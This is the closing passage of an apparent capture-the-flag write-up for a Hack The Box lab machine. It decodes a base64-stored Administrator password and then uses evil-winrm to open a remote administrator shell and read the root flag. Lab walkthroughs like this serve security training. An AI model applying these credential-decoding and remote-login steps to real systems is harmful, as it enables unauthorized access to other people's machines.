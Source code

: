 We decode this and we get the final passowrd for the admininstrator.

```bash
➜  cascade echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

```bash
➜  cascade evil-winrm -i cascade.htb -u Administrator -p baCT3r1aN00dles                                   

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
3f3bb569d2{...}
```

Thanks for reading hope you enjoyed!
